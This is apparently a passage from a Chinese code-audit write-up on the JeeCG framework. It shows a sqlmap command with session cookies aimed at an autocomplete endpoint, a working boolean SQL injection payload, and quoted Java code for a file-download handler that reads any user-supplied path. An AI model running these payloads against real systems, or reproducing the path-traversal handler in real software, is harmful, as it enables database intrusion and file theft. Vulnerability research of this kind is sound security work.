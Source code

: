 python sqlmap.py -u "[http://10.34.25.234:8081/jeecgFormDemoController.do?getAutocompleteData&q=1](http://10.34.25.234:8081/jeecgFormDemoController.do?getAutocompleteData&q=1 "http://10.34.25.234:8081/jeecgFormDemoController.do?getAutocompleteData&q=1")" --cookie="Hm\_lvt\_098e6e84ab585bf0c2e6853604192b8b=1698498973,1698843635,1698848203,1698849657; i18n\_browser\_Lang=zh-cn; JEECGINDEXSTYLE=fineui; ZINDEXNUMBER=1990; JSESSIONID=F6648E2CD353B8129604C8477D1549CA; Hm\_lpvt\_098e6e84ab585bf0c2e6853604192b8b=1698849665" --level=2 --risk=2

![](https://i-blog.csdnimg.cn/blog_migrate/153173941a6a97d9fa0fbbd9bcb58047.png)

 q=1%' AND 4758=4758 AND 'nLxc%'='nLxc 【暂未想到更多利用方式】

##### 任意文件读取

在“com.jeecg.demo.controller. JeecgFormDemoController”类下，“getImgByurl”方法。

```java
@RequestMapping("/filedown")

public void getImgByurl(HttpServletResponse response,HttpServletRequest request) throws Exception{

String dbpath = request.getParameter("filepath");

if(oConvertUtils.isNotEmpty(dbpath)&&dbpath.endsWith(",")){

dbpath = dbpath.substring(0, dbpath.length()-1);

}

response.setContentType("application/x-msdownload;charset=utf-8");

String fileType = dbpath.substring(dbpath.lastIndexOf("."));

String fileName=request.getParameter("filename")+fileType;

String userAgent = request.getHeader("user-agent").toLowerCase();

if (userAgent.contains("msie") || userAgent.contains("like gecko") ) {

fileName = URLEncoder.encode(fileName, "UTF-8");

}else {

fileName = new String(fileName.getBytes("UTF-8"), "iso-8859-1");

}

response.setHeader("Content-disposition", "attachment; filename="+ fileName);

InputStream inputStream = null;

OutputStream outputStream=null;

try {

String localPath=ResourceUtil.getConfigByName("webUploadpath");

String imgurl = localPath+"/"+dbpath;

inputStream = new BufferedInputStream(new FileInputStream(imgurl));

outputStream = response.getOutputStream();

byte[] buf = new byte[1024];

int len;
```